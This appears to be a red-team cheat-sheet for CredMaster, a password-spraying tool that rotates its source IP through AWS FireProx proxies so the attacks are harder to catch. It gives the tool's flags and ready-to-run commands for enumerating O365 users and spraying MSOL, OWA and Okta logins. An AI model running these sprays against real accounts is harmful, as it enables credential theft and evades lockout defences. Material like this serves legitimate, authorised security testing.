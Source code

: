 
# CredMaster
Init
> "Launch a password spray / brute force attach via Amazon AWS passthrough proxies, shifting the requesting IP address for every authentication attempt. This dynamically creates FireProx APIs for more evasive password sprays."
> -GitHub
## Use
Needs an AWS key to spin up EC2 instances for the job. Put into `aws.config`.
```json
{
        "region" : "us-east-1",
        "access_key" : "",
        "secret_access_key" : "",
        "session_token" : null,
        "profile_name" : null                                           
}
```
### Flags
- `-u` username file
- `-t` threads
- `--plugin` plugin to use
- `--config` config file to use
- `-p` passwords file
- `-o` output file
- `-ua` user agents list to cycle thru
- `-t` throttling
- `-m` min jitter *has to be a higher number than `-j`*
- `-j` jitter
### Plugin Examples
#### O365 User Enum
```bash
python3 credmaster.py \
--plugin o365enum \
--config aws.config \
-u usernames.txt \
-t 8 
```
CredMaster will also create a `credmaster-validusers.txt` file with all of the valid usernames it finds with this command.
#### Spraying Plugin
```bash
python3 credmaster.py --plugin msol --config aws.config -u credmaster-validusers.txt -p passwords.txt -o 
```
#### MSOL
```bash
python3 credmaster.py -u "all_emails_v1.txt" \ 
-p pass.txt \ 
--plugin msol \ 
--config aws.config \ 
--color \ 
-o "credmaster-MSOL-out-3.txt" \ 
-t 5 -j 15 -m 10 \ 
-a ua.txt # list of user agent strings to use
```
#### o365enum
```bash
python3 credmaster.py -u "users.txt" \
-p pass.txt \
--plugin o365enum \
--config aws.config \
--color \
-o "./o365-enum-out" \
-t 5 -j 15 -m 10 \ # jitter has to be higher than throttle
-a ua.txt
```
#### OWA Plugin Spray
**NOTE** use a url you've found on the target's actual domain.
```bash
python3 credmaster.py -u "/root/target/users.txt" \
-p pass.txt \
--plugin owa \
--url "https://target.mail.onmicrosoft.com" \
--config aws.config \
-o "/root/target/OWA-credmaster-out"
```
#### Okta
```bash 
python3 credmaster.py \
--plugin okta \
--config aws.config \
-u users.txt \
-p passwords.txt \
-o okta-out \
--url https://target.okta.com
```

> [!Resources]
> - [GitHub](https://github.com/knavesec/CredMaster)